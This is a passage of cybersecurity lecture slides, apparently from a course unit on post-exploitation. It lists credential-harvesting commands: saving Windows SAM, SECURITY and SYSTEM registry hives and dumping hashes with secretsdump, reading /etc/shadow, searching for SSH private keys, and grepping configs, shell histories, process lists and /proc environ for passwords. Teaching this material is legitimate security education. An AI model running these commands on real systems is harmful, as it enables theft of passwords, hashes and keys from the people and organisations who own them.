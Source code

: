 ### 🗄️ Registry-Based Extraction
```batch
# SAM database dump
reg save HKLM\sam C:\temp\sam
reg save HKLM\security C:\temp\security  
reg save HKLM\system C:\temp\system

# Extract hashes with secretsdump
python secretsdump.py -sam sam -security security -system system LOCAL
```

</div>

<div>

## 🐧 Linux Credential Harvesting

### 📁 File-Based Extraction
```bash
# Shadow file access
cat /etc/shadow

# SSH keys collection
find / -name "id_rsa" 2>/dev/null
find / -name "id_dsa" 2>/dev/null
find / -name "*.pem" 2>/dev/null

# Configuration files with passwords
grep -r "password" /etc/ 2>/dev/null
find / -name "*.conf" -exec grep -l "pass" {} \; 2>/dev/null
```

### 🔍 History and Process Mining
```bash
# Command history
cat ~/.bash_history | grep -i "pass\|pwd\|login"
cat ~/.zsh_history | grep -i "pass\|pwd\|login"

# Process arguments with passwords
ps aux | grep -i "pass\|pwd"

# Environment variables
strings /proc/*/environ | grep -i "pass\|pwd"
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---